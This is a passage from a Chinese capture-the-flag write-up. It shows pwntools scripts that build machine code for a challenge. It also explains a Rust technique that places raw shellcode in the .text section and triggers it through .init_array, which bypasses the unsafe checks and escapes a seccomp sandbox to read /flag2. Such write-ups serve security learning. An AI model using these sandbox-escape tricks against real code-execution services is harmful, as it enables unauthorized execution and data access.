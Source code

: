 从而所有指令长度都不超过 4 字节，不足的可用 `.align 4` 补齐。用 pwntools 生成机器码，提交后获得 Flag：

```python
from pwn import *
from base64 import b64encode

context.update(arch="amd64", os="linux")

with open("prob10.asm") as file:
    code = file.read()

result = bytearray()
for line in code.split("\n"):
    if line == "" or line.startswith("/*"):
        continue
    result += bytearray([0xEB, 0x01, 0xE9])
    result += asm(line + "\n.align 4")

print(b64encode(result))
```

### 编原译理习题课 · 实验班

在 Rust 的 issues 中搜索[「unsafe」「unsound」相关问题](https://github.com/rust-lang/rust/issues?q=unsafe+is%3Aopen+in%3Atitle+label%3AI-unsound)，注意到[一则评论中的代码](https://github.com/rust-lang/rust/issues/28179#issuecomment-361320369)：

```rust
#![no_main]

#[link_section = ".text"]
#[no_mangle]
pub static main: [u32; 9] = [
    3237986353, 3355442993, 120950088, 822083584, 252621522, 1699267333,
    745499756, 1919899424, 169960556,
];
```

这段代码用到的 [`link_section` 属性](https://doc.rust-lang.org/reference/abi.html#the-link_section-attribute)可以指定函数或静态变量在目标文件中的位置。指定 `#[link_section = ".text"]`，就能将任意机器代码放入可执行的节。这样的代码能绕开 Rust 的 unsafe 检查。

那么问题是如何使插入的机器代码被运行，当然不能从 Rust 中直接调用。可以想到目标文件中还有其他有用的节，例如 `.init_array` 节，其中存放的函数指针会在 `main` 之前被运行。在其中放入指向插入的机器代码的指针，就能执行想要的功能，同时完全避免 `main` 中设置的 seccomp 限制。

用 pwntools 生成读取 `/flag2` 的机器代码：

```python
from pwn import *

context.update(arch="amd64", os="linux")
code = asm(shellcraft.amd64.linux.cat("/flag2"))

for i in range(0, len(code), 4):
    print(f"0x{int.from_bytes(code[i:i+4], 'little'):08x},")
```
